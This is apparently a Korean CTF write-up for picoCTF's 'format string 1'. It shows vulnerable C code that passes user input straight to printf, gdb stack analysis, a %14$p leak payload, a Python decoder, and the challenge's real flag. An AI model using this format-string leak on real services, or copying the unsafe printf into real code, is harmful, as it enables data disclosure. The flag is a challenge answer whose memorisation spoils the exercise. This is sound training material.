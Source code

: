 # [format string 1](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&originalEvent=73&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
- [FLAG](#flag)
<br />

# Description
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
<br />

**Source Code:**
```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```
<br />

# Exploitation
```bash
$ cat secret-menu-item-1.txt
BBBBBBBB
$ cat flag.txt
pico{this_is_flag}
$ cat secret-menu-item-2.txt
AAAAAAAA
```
위 텍스트 파일 3개를 새로 생성한 후, gdb로 분석하겠습니다.

```yaml
pwndbg> b *main+275
Breakpoint 1 at 0x401309
pwndbg> r
...
Give me your order and I'll read it back to you:
CCCCCCCC
```
`main+275`에 `break` 후 `r`을 하빈다. 입력 값은 `CCCCCCCC`이고, 실행 직후 스택을 확인 해보겠습니다.
```yaml
pwndbg> x/30gx $rsp
0x7fffffffdb60: 0x4141414141414141      0x00007fffffff000a
0x7fffffffdb70: 0x00007fffffffdbb4      0x00007ffff7dcd600
0x7fffffffdb80: 0x00007ffff7fbf6c0      0x0000000000000003
0x7fffffffdb90: 0x00007fff00000000      0x00007ffff7ffe6b0
0x7fffffffdba0: 0x6968747b6f636970      0x616c665f73695f73
0x7fffffffdbb0: 0x00000000000a7d67      0x0000000000000000
0x7fffffffdbc0: 0x0000000000000000      0x00007fffffffdd50
0x7fffffffdbd0: 0x00007ffff7ffe6b0      0x00007ffff7ff287a
0x7fffffffdbe0: 0x4242424242424242      0x00007fffffff000a
0x7fffffffdbf0: 0x000000003de00ec7      0x00007ffff7fd111c
0x7fffffffdc00: 0x0000000000000001      0x00007fffffffdd50
0x7fffffffdc10: 0x0000000000000000      0x0000000000000000
0x7fffffffdc20: 0x4343434343434343      0x00007ffff7ffe300
0x7fffffffdc30: 0x00007ffff7ffe310      0x00007ffff7dd6cd8
0x7fffffffdc40: 0x00007fffffffdc90      0x00007ffff7ffe6b0
```
위에서부터 `0x7fffffffdb60`은 secret1, `0x7fffffffdba0`은 flag, `0x7fffffffdbe0`은 secret2 마지막으로 `0x7fffffffdc20`은 buf 입니다. 따라서 포맷스트링 인자 기준 flag의 오프셋은 14 입니다.
> [!NOTE]
포맷스트링 인자는 출력될 때, `rsi`, `rcx`, `rdx`, `r8`, `r9`, `rsp`, `rsp+8`, `rsp+0x10`, ... 순으로 출력이 됩니다. 따라서 flag의 오프셋은 14인 것입니다.
<br />

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p
Here's your order: 0x6968747b6f636970|0x616c665f73695f73|0xa7d67
Bye!
```
출력된 결과를 파이썬 자동화를 통해 아스키로 바꿔보겠습니다.

```python
$ cat test.py
data = "0x6968747b6f636970|0x616c665f73695f73|0xa7d67"
data = data.split("|")

res = ""
for p in data:
    if p.startswith("0x"):
        hex_str = p[2:]
        if len(hex_str) % 2 != 0:
            hex_str = "0" + hex_str
        ascii_str = bytes.fromhex(hex_str)[::-1].decode("latin1", errors="ignore")
        res += ascii_str

print(res)
```
```bash
$ python3 test.py
pico{this_is_flag}
```

<br />

# FLAG
```bash
$ nc mimas.picoctf.net 63454
Give me your order and I'll read it back to you:
%14$p|%15$p|%16$p|%17$p|%18$p
Here's your order: 0x7b4654436f636970|0x355f31346d316e34|0x3478345f33317937|0x34365f673431665f|0x7d363131373732
Bye!
```
```bash
$ python3 test.py
picoCTF{4n1m41_57y13_4x4_f14g_64277116}
```
